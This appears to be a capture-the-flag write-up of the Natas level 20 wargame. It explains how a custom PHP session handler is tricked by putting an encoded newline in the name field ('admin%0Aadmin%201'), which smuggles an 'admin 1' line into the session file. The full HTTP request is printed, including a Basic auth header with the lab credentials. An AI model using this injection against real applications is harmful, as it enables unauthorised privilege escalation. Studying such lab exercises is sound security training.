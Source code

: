 Thought it had something todo with the SID. Could not figure it out.

Used a write up to get a hint for the newline \(\n\).

Everything in $\_SESSION is added to data with a newline delimiter by the mywrite function. Data is then written to a session file.

```php
ksort($_SESSION);
    foreach($_SESSION as $key => $value) {
        debug("$key => $value");
        $data .= "$key $value\n";
    }
    file_put_contents($filename, $data);
    chmod($filename, 0600);
```

[https://www.php.net/manual/en/function.explode.php](https://www.php.net/manual/en/function.explode.php)  
explode — Split a string by a string

Everything written in session file is read by the myread function.

Spaces in files are used by explode to split the string. as long as the first part is not equal to "" the first part and seccond part of the explode are added back in the global $\_SESSION variable.

```php
foreach(explode("\n", $data) as $line) {
    debug("Read [$line]");
    $parts = explode(" ", $line, 2);
    if($parts[0] != "") $_SESSION[$parts[0]] = $parts[1];
}
```

This means if we write a session file that has 2 lines like this.

```text
name somename
admin 1
```

the read function will do the following.

```php
$_SESSION[name] = somename
$_SESSION[admin] = 1
```

this will then pass the print\_credentials check. How do we do this ? Add a newline to the input.

admin\nadmin 1

```text
POST /index.php HTTP/1.1
Host: natas20.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 22
Authorization: Basic bmF0YXMyMDplb2ZtM1dzc2h4YzVid3RWbkV1R0lscjdpdmI5S0FCRg==
Connection: close
Referer: http://natas20.natas.labs.overthewire.org/index.php
Cookie: __cfduid=dc2e23c92b1d237ff6fcd21eeaace26841568619071; __utma=176859643.1037695426.1568619071.1568619071.1568619071.1; __utmz=176859643.1568619071.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none); PHPSESSID=sess
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache

name=admin%0Aadmin%201
```